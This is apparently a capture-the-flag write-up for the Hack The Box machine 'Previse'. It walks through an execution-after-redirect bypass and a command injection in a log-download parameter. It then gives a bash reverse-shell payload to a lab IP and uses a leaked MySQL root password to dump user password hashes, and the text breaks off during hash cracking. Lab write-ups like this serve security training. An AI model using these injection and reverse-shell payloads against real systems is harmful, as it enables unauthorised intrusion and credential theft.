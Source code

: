 # Previse
> Write-up author: jon-brandy

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/66cdadd8-4e5d-4b69-847e-30c752492d73)


## STEPS:
> PORT SCANNING

```
┌──(brandy㉿bread-yolk)-[~]
└─$ nmap -p- 10.10.11.104 -sVC --min-rate 1000
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-13 22:52 PDT
Nmap scan report for 10.10.11.104
Host is up (0.032s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 53ed4440116e8bda698579c081f23a12 (RSA)
|   256 bc5420ac1723bb5020f4e16e620f01b5 (ECDSA)
|_  256 33c189ea5973b1788438a421100c91d8 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-title: Previse Login
|_Requested resource was login.php
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.77 seconds
```

1. Based from the nmap results, the machine runs a web application and opens ssh login.

> WEB APP

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/6bb0b815-8bd3-4226-a432-cb09d1e8e1f5)


2. After ran **dirbuster** shall found several files.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/b24922d9-109a-4158-9315-c1ddf4565688)


3. Checking every endpoint with **200** as it status code, turns out **nav.php** should be our interest.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/6757eaa8-b94d-41d2-81c0-bb8884bb4ea2)


4. Click the `CREATE ACCOUNT` option shall redirect you to the login page.
5. Interesting! Intercept the request for that option usingh burpsuite shall resulting to another interesting part.

> NOTICED IT DIRECTS US TO ACCOUNT.PHP

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/ddccfcd2-399c-44ad-b594-2e592b4707a9)


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/d2229416-c940-4372-97ef-be9d6f062098)


5. The interesting part is at the response tab where it says `ONLY ADMINS SHOULD BE ABLE TO ACCESS THIS PAGE!!`.
6. Reviewing the source code at the response tab, you shall notice that it leaked all the parameter we need to make an account.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/8fe0d1cf-1885-4f3f-b0f0-e7f3fd700674)


7. Anyway, accessing the root (/) page, shall redirect us to login.php.
8. This type of thing is related to `Execution After Redirect (EAR) Vulnerability`.
9. To exploit this vulnerability we can turn on `Server Response Interception` in Burp Proxy. This should allows us to pause or intercept the response (tp prevent it redirected to the another page).

> TURNING ON SERVER RESPONSE INTERCEPTION

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/6beb4b9c-cd65-4daa-94f8-571b422c8658)


> TRY ACCESSING ROOT AGAIN


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/31dac8fa-62e7-481e-9e07-975dc59e9e8d)


> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/7ea2398c-09d1-4604-855b-25ec1a9ef3c3)


10. Noticed we are also logged in here.
    
#### NOTES: Anyway another method if you did not want to intercept the response, you can simply intercept the request then right click, then choose --> "Response to this request".

11. To access all the page from the navbar option, use the same method as to access the root page.

> accounts.php page

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/bcefa70b-b8e1-4fcf-894f-3631d944f7b5)


> files.php page

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/a9dc12e3-f3ef-401b-8290-d816f796ddaf)


> status.php page

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/7cdfc4ad-c9b8-4c9b-95ac-1f3640bb2073)


> file_logs.php

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/17e2daca-6814-4a50-a112-e60ced6e2834)


> log.php (choosing any file delimiter shall resulting to a blank page).

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/19fe0d13-ab35-45bb-a7d8-37da76d25a3c)


12. Found several pages that could be our foothold, but two pages caught my attention fully, the accounts.php page and files.php page.
13. After registered dummy account, we can logged in and see all the pages without burp again.

> CREATING ACCOUNR

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/6911fdb2-e6de-40a7-8c3f-b8f50955e0b2)


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/78e724e2-b186-43df-9b6a-fe58b580501e)


> LOGGING IN

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/c5222cc7-de7e-4da2-81a5-efc41870ffcc)


14. Great! Now let's download the attached .zip file.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/4b909a5b-592d-4985-81d0-6b198db27609)


15. Turns out it's the source code!

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/5d894d6a-8cc0-4e9d-9bf6-931606989a6b)


16. Reviewing the config.php source shall found a mysql cred.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/878227d9-2b7d-4ebd-b903-0a3dcf3fe69c)


17. But we can't access it, because it's the port is not opened.
18. Long story short, we know that everytime we submit a delimiter it shows us blank page, but this time it downloads a file.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/2b243840-a266-4b47-bcc7-19484b88f696)


> RESULT (ALL)

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/73f214a5-b568-4562-a1af-2a4ab156438b)


19. All of them shows the same data.
20. Interesting, reviewing the logs.php source found **command injection** vuln.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/b36b357c-8e64-492f-8a35-0bf595ee4a8a)


21. There is no filter! Great, this should be our foothold.
22. Let's capture the request again using burpsuite.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/ac00b7bc-fe70-4fa7-b69f-10532ffa2651)


23. To test whether our argument is true or not, we can use bash command to ping our tun0 interface then check it on our local machine.

> COMMAND

```
delim=comma;ping -c 4 10.10.16.23 #

delim=comma;ping%20-c%204%2010.10.16.23%20#
```

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/a733fefc-acc7-4d69-8c10-34afbf6b8b55)


24. Great! It indeed execute our bash command, we can drop our reverse shell now.

> REVSHELL PAYLOAD

```
;bash -c 'bash -i >& /dev/tcp/10.10.16.23/1337 0>&1';

%3Bbash%20%2Dc%20%27bash%20%2Di%20%3E%26%20%2Fdev%2Ftcp%2F10%2E10%2E16%2E23%2F1337%200%3E%261%27%3B
```

> GOT SHELL

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/f13f53f3-40d4-4f98-8175-127e5f966ab9)


25. Sadly we can't get the user flag.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/7bb914ec-2b7a-4e47-9fc5-3c58e52e51b8)


26. Let's use the mysql cred we got before.
27. Anyway the shell is not stable, everytime you ran sql syntax, it executes the command then terminate the shell.
28. There's two ways to fix this, make the shell stable or use `-e` flag.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/88726b5b-4513-4bdd-828e-eeb4357bb6b3)


29. Long story short, found creds at --> previse database and accounts table.

```
www-data@previse:/var/www/html$ mysql -h localhost -u root -p'mySQL_p@ssw0rd!:)' previse -e 'show tables;'
<oot -p'mySQL_p@ssw0rd!:)' previse -e 'show tables;'
mysql: [Warning] Using a password on the command line interface can be insecure.
Tables_in_previse
accounts
files
```

```
www-data@previse:/var/www/html$ mysql -h localhost -u root -p'mySQL_p@ssw0rd!:)' previse -e 'select * from accounts;'
<L_p@ssw0rd!:)' previse -e 'select * from accounts;'
mysql: [Warning] Using a password on the command line interface can be insecure.
id      username        password        created_at
1       m4lwhere        $1$🧂llol$DQpmdvnb7EeuO6UaqRItf.        2021-05-27 18:18:36
2       brandy  $1$🧂llol$QU5sYupds4bbeJz3SSAuj0        2023-10-14 07:21:53
www-data@previse:/var/www/html$
```

30. Great! Let's crack the **m4lwhere** password using john.

```
┌──(brandy㉿bread-yolk)-[~]
└─$ hashid $1$🧂llol$DQpmdvnb7EeuO6UaqRItf.
Analyzing '$🧂llol.'
[+] Unknown hash
```

31. Stuck for a while, because hashid failed to identify the potential hash algorithm.
32. Reviewing the accounts.php source again, you shall find the hash algorithm there.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/a68991f0-1eeb-46cf-94db-775b0c7a81c2)


33. The `1$` indicates the hash is md5, hence we can use `md5crypt-long` module.

> RESULT










 
